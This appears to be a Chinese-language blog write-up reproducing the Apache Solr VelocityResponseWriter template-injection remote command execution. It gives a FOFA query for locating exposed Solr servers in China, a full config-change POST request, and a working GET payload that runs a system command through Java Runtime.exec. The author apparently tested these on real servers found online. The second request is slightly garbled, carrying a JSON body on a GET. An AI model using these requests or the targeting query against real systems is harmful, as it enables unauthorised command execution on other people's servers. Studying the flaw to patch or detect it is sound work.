







# 【漏洞复现】Apache Solr 模板注入远程命令执行

# 0x00 漏洞简介

---

Solr是一个独立的企业级搜索应用服务器，它对外提供类似于Web-service的API接口。用户可以通过http请求，向搜索引擎服务器提交一定格式的XML文件，生成索引；也可以通过Http Get操作提出查找请求，并得到XML格式的返回结果。

---

# 0x01 漏洞概述

---

该漏洞的产生是由于两方面的原因：

1. 当攻击者可以直接访问Solr控制台时，可以通过发送类似/节点名/config的POST请求对该节点的配置文件做更改。

2. Apache Solr默认集成VelocityResponseWriter插件，在该插件的初始化参数中的params.resource.loader.enabled这个选项是用来控制是否允许参数资源加载器在Solr请求参数中指定模版，默认设置是false。  
   当设置params.resource.loader.enabled为true时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。（来自360CERT）

---

# 0x02 影响范围

---

Apache Solr 5.x - 8.2.0，存在config API版本

---

# 0x03 漏洞复现

使用fofa搜索语法  
`app="Solr" && country="CN"`

## 在这里插入图片描述

### 利用前提：攻击者需要知道Solr服务中Core的名称才能执行攻击。



---

`如上图所示的这个名称就是Core的名称
直接构造POST请求，在/solr/test/config目录POST以下数据（修改Core的配置）`

---

```plain
POST /solr/test/config HTTP/1.1
Host: ip:port
Content-Type: application/json
Content-Length: 259
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
```

## 在这里插入图片描述

`使用exp,进行漏洞利用`

```plain
  GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: ip:port
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

---

  


---

# 0x04 漏洞复现那些坑

---

###### 1. 版本不对（或者是服务器请求处理机制不对，大佬是这个咋不懂，咋也不敢问），第一个坑。（由于我是直接使用fofa直接搜索，所以才会导致这个多坑）

## 在这里插入图片描述

###### 2. POST请求包里面的header不对，原因：因为我是我直接抓包，然后使用burpsuite修改请求包，然后导致这个结果，以至于我浪费了很多时间。

  
  
今日又看了几篇关于这个文章，我也没有搞明白这个header头错误是什么情况。



---

##### 3. 数据包请求方法不对。（另一种说法是这个情况就是证明存在漏洞（来着土司某位大佬的见解））



---

# 0x05 参考

<https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/>

# 0x06 免责声明

本文中提到的漏洞利用Poc和脚本仅供研究学习使用，请遵守《网络安全法》等相关法律法规。  
致谢：上上下下左左右右ba
